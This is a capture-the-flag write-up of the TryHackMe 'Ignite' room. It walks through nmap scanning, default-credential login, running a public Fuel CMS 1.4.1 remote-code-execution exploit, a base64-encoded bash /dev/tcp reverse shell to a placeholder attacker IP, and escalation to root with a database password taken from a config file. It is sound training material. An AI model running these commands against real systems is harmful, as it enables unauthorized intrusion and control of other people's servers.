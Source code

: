 # THM: Ignite

| Stat | Value |
| ---------- | -------------------------------------------- |
| Image | <img src="../../images/write_ups/try_hack_me/ignite/ignite.png" alt="Ignite" width="90"/> |
| Room | Ignite |
| URL | https://tryhackme.com/room/ignite |
| Difficulty | Easy |

## Concepts/Tools Used

- [netcat](../../tools/netcat.md)
- [nmap](../../tools/nmap.md)
- [Searchsploit](../../tools/searchsploit.md)
- Base64 Encoding

## Room Description

A new start-up has a few issues with their web server.

## Process

Once the machine starts up I save the machine's ip address to my host file so that I can type `target.thm` instead of an ip address.

I run nmap to see what ports are open:

```bash
$ nmap -T4 -n -sC -sV -Pn -p- target.thm
Starting Nmap 7.80 ( https://nmap.org ) at 2025-06-17 06:00 BST
Nmap scan report for target.thm (10.10.56.91)
Host is up (0.00014s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/fuel/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to FUEL CMS
MAC Address: 02:4F:B3:1C:25:11 (Unknown)
```

I notice that an http server is running on port 80 and so I take a look at the site with Firefox.

![Ignite Homepage](../../images/write_ups/try_hack_me/ignite/homepage.png)

The site is using the Fuel CMS version 1.4 software. Near the bottom it mentions that the default username and password are admin:admin.

The nmap scan above mentioned the /fuel/ directory. When I browse that page I notice that it is a login page for the Fuel CMS.

![Fuel CMS Login Page](../../images/write_ups/try_hack_me/ignite/login.png)

I use the credentials found earlier, I am in.

## Getting a Foothold

I looked around for a place where I could inject PHP code and run a remote shell. I was unable to find anything and so I ran the following command to see if I could find an exploit in Fuel CMS:

```bash
$ searchsploit fuel cms 1.4
---------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                              |  Path
---------------------------------------------------------------------------- ---------------------------------
fuel CMS 1.4.1 - Remote Code Execution (1)                                  | linux/webapps/47138.py
Fuel CMS 1.4.1 - Remote Code Execution (2)                                  | php/webapps/49487.rb
Fuel CMS 1.4.1 - Remote Code Execution (3)                                  | php/webapps/50477.py
Fuel CMS 1.4.13 - 'col' Blind SQL Injection (Authenticated)                 | php/webapps/50523.txt
Fuel CMS 1.4.7 - 'col' SQL Injection (Authenticated)                        | php/webapps/48741.txt
Fuel CMS 1.4.8 - 'fuel_replace_id' SQL Injection (Authenticated)            | php/webapps/48778.txt
---------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

I start at the top of the list with 47138 and copy it to my current directory using the following command:

```bash
$ searchsploit -m 47138
```

I look at the script and see that it is for python 2 (python3 requires the print function to have parentheses around what gets printed). I make two alterations to the script:

- The url variable on line 14 gets updated from "http://127.0.0.1:8881" to "http://target.thm".
- The proxy variable on line 25 gets updated from {"http":"http://127.0.0.1:8080"} to {}.

I run the script with the following command:

```bash
$ python 47138.py
cmd:whoami
systemwww-data

<div style="...
```

I now have remote code execution on the machine. Now I run a few commands to get the contents of the flag.txt file:

```bash
cmd:ls -lha /home
systemtotal 12K
drwxr-xr-x  3 root     root     4.0K Jul 26  2019 .
drwxr-xr-x 24 root     root     4.0K Jul 26  2019 ..
drwx--x--x  2 www-data www-data 4.0K Jul 26  2019 www-data
```

I check what files are in the /home/www-data directory:

```bash
cmd:ls -lha /home/www-data
systemtotal 12K
drwx--x--x 2 www-data www-data 4.0K Jul 26  2019 .
drwxr-xr-x 3 root     root     4.0K Jul 26  2019 ..
-rw-r--r-- 1 root     root       34 Jul 26  2019 flag.txt
```

I get the contents of the flag.txt file:

```bash
cmd:cat /home/www-data/flag.txt
systemREDACTED
```

I don't want to keep running commands like this, I need a reverse shell. I setup a listener on my machine in a new terminal with the following command:

```bash
$ nc -lnvp 4444
```

I tried to get a reverse shell using commands [found here](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).

Each time I ran the commands on the site above, none of them worked. I have used those commands before and I know they are good commands. I remembered that sometimes you need deliver the payload a different way to actually run it.

With that in mind, I base64 encoded the payload so that it could transfer properly. Here is the command I used to encode it:

```bash
$ echo "bash -i >& /dev/tcp/<attack_box_ip>/4444 0>&1" | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC88YXR0YWNrX2JveF9pcD4vNDQ0NCAwPiYxCg==
```

I am using a command that will not work because the attack_box_ip must be filled in. I took the output of the previous command and ran:

```bash
$ echo "YmFzaCAtaSA+JiAvZGV2L3RjcC88YXR0YWNrX2JveF9pcD4vNDQ0NCAwPiYxCg==" | base64 -d | bash
```

I have a shell. I'm in!

## Privilege Escalation

I ran my [usual list of commands](../../README.md#linux-privilege-escalation). This didn't yield anything.

I remembered that the homepage of Fuel CMS mentioned where the configuration files were stored. I ran the following command:

```bash
$ cat /var/www/html/fuel/application/config/database.php
```

The output had some interesting lines:

```bash
...
$db['default'] = array(
	'dsn'	=> '',
	'hostname' => 'localhost',
	'username' => 'root',
	'password' => REDACTED,
	'database' => 'fuel_schema',
...
```

Since the username is root. I tried to log in as the root user with that password:

```bash
$ su root
```

It worked. I'm in! The cursor changed to the # character to let me know that I am root. I ran the following to get the flag:

```bash
# cat /root/root.txt
REDACTED
```
